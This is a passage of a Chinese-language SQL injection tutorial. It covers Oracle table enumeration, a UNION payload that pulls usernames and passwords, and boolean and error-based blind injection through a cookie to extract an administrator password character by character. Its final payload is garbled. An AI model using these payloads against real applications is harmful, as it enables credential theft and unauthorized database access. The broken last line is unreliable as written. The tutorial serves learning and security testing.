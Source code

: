 ````sql
````
````sql
--oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = '表名'
````
````sql
--根据列中的名字select,例如
' union select username, password from users--
````
## 0x06 盲注
盲注指存在可利用漏洞，但没有返回错误信息的注入。没有报错信息的话上面的注入方法就很难判断，但盲注的语句同样执行，也可以利用，但需要用别的方式。
### 1.通过触发响应进行盲注
页面虽然不会返回报错，但会返回某些字符或样式提示语句是否被成功执行。形成布尔型盲注，就是真假判断，有返回就说明语句被成功执行，无返回说明执行失败。
假设web应用会对cookie使用sql查询语句，如：  
````sql
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
````
这里存在注入但不会向用户回显结果，可是根据输入不同页面会有所改变，当语句取回数据时会回显一个“Welcome back”在界面上。

这样一次就可以判断1bit数据，可以用上面的判断列名方式，使用二分发判断字母，例如  
````sql
xyx' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
````
返回真，说明第一个字母在m之后，再测
````sql
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'--
````
这样测下去，最终测到=s时返回真，说明第一个字母是s
````sql
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'--
````
**可以用猜内容中ascii码的方式来判断，其余盲注同理**
### 2.通过触发sql错误进行盲注
如果应用执行了SQL语句，但返回结果却永远相同，没有了布尔型的判断条件，
这种情况下，可以根据注入语句来触发错误条件，让页面你返回信息  
如果注入语句为真，就触发一个数据库错误，如果没执行就不触发。通常，引发一个未被处理的错误将会导致页面发生变化，这样就可以判断注入语句是否被执行。  
利用case when then语句(每个数据库不一样，详情见不同数据库备忘录) 例：
````
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
#返回空
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
#返回除以0的错误
````
然后同样利用布尔型盲注，例：
````sql
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then to_char(1/0) to_char(else null end from users--
````
